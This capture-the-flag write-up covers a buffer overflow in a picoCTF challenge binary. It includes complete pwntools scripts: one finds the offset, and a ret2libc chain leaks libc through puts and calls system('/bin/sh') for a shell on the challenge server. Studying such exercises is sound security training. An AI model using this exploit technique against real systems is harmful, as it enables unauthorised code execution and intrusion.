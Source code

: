 # Writeup - Here's a LIBC


### Vulnerability
First, open up the vuln binary with Ghidra to see the decomplied C code. If you look at the `main` function there is a `while`-loop that calls a function `do_stuff`. Inside this function there is a variable of size 112 but it's contents are read through `scanf`. This is a buffer-overflow. The idea now is to write a more than 112 bytes as input and then some code so that we can run that code. That code will essentially pop a shell with `/bin/sh`.


### Exploit

We first try to find how many characters to fill before the malicious code.

Script to find offset:

```python
from pwn import *

io = process("./vuln")
print(io.recvregex(b'!')) # read until we get the prompt
io.sendline(cyclic(500))
io.wait()
core = io.corefile
rsp = core.rsp
info("rsp = %#x", rsp)
pattern = core.read(rsp, 4)
rip_offset = cyclic_find(pattern)
info("rip offset is %d", rip_offset)
```

Full exploit:

```python
import sys

from pwn import *

libcelf = {
  "local": "/lib/x86_64-linux-gnu/libc.so.6",
  "remote": "./libc.so.6"
}

mode = sys.argv[1]
print(f"mode: {mode}")
if mode != "local" and mode != "remote": print("exitting.."); sys.exit()

vuln_elf = ELF("./vuln")
r = vuln_elf.process() if mode == "local" else remote("mercury.picoctf.net", sys.argv[2])

libc = ELF(libcelf[mode])

pop_rdi = 0x0000000000400913
ret = 0x000000000040052e

puts_plt = vuln_elf.plt['puts'] #grab plt address of puts function
main_plt = vuln_elf.symbols['main'] #grab address of main
puts_got = vuln_elf.got['puts']

junk = b"A" * 136

log.info(f"main starts @ {hex(main_plt)}")
log.info(f"puts plt @ {hex(puts_plt)}")
log.info(f"pop rdi; ret @ {hex(pop_rdi)}")
log.info(f"puts got @ {hex(puts_got)}")

rop1 = b""
rop1 += junk
rop1 += p64(pop_rdi) #fill rip with pop rdi; ret address
rop1 += p64(puts_got) #put address of puts global offset table in the rdi register
rop1 += p64(puts_plt) #call to puts in the procedural link table, looks to rdi for argument (puts_got)
rop1 += p64(main_plt) #return to main of program after tricking it into leaking puts address

print(r.clean()) #clean buffer and print all received bytes
r.sendline(rop1)

print(r.recvline())

received_line = r.recvline().strip()
leak = u64(received_line.ljust(8, b"\x00"))
log.info(f"leaked puts address @ {hex(leak)}")

libc.address = leak - libc.symbols['puts']
log.info(f"libc base @ {hex(libc.address)}")
log.info("now we have libc base, we can find system and pwn that sh*t")

bin_sh = next(libc.search(b"/bin/sh"))
system = libc.symbols['system']

log.info(f"/bin/sh located @ {hex(bin_sh)}")
log.info(f"system function located @ {hex(system)}")

rop2 = b""
rop2 += junk
rop2 += p64(ret)
rop2 += p64(pop_rdi) #Once again, pop rdi to place argument in
rop2 += p64(bin_sh) #put /bin/sh into rdi to be passed to system
rop2 += p64(system) #call system with /bin/sh argument from rdi

r.clean()
r.sendline(rop2)
r.interactive()
```

